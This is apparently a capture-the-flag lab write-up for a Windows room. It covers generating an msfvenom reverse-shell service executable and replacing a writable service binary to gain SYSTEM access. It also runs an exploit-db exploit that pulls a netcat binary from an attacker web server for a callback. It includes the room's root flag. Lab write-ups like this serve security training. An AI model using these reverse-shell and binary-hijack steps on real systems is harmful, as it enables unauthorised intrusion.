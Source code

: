 *The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program! Use msfvenom to generate a reverse shell as an Windows executable. `msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe` Upload your binary and replace the legitimate one. Then restart the program to get a shell as root. Note: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.*  

First we must generate the reverse shell using `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe` which will name the script 'ASCService.exe' . We can upload this to the machine like before using the 'upload' command in meterpreter.  We next need to prepare to overwrite the legitimate application with our new one. Before we do that we must stop the service by using the command `SC stop AdvancedSystemCAreService9` 'SC(service control ) Action Service'. We can then copy  the reverse shell application to the location of the current application `copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"` .  From another terminal we should start a netcat listener `nc -lnvp 4443` then restart the service `SC start AdvancedSystemCareService9` This should give us system Access!

>[!question]- **Answer**  
>  No answer needed
  
*What is the root flag?*  
The root flag is found on the Administrators desktop
>[!question]- **Answer**  
>  9af5f314f57607c00fd09803a587db80
## Access and Escalation Without Metasploit  
---  
### Information  
Now let's complete the room without the use of Metasploit. For this we will utilize PowerShell and winPEAS to enumerate the system and collect the relevant information to escalate to  
### Questions  
  
*To begin we shall be using the same CVE. However, this time let's use this [exploit.](https://www.exploit-db.com/exploits/39161) *Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!**  To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub! You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!*  
1. Start by first going to the new exploit and downloading the code. 
2. edit the script to have your attacker IP and if you would like you can update the port as well. ![[steelmountain-exploit-script-1.png]]
3. Update the script for the vbs variable to have the string ":8000" right after the `ip_addr` . This is due to the fact that the attackbox is already utilizing port 80. ![[steelmountain-update-port.png]]
4. next download the netcat binary file [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)  or use wget to get the file (if using wget ensure you use the 'raw' link). making sure that it is named nc.exe `wget -O nc.exe https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe` ![[steelmountain-get-ncat-binary.png]]
5. Start up a python server in the same location you downloaded the netcat binary. `python3 -m http.server 8000`
6. Start a netcat listener in a different terminal on your attacking machine to ensure that when you run the exploit you will get a good connection. `nc -lnvp 443`
7. You should now open another terminal to execute the python script `python2 exploit.py [victim ip] 8000`
8. Run the exploit one more time
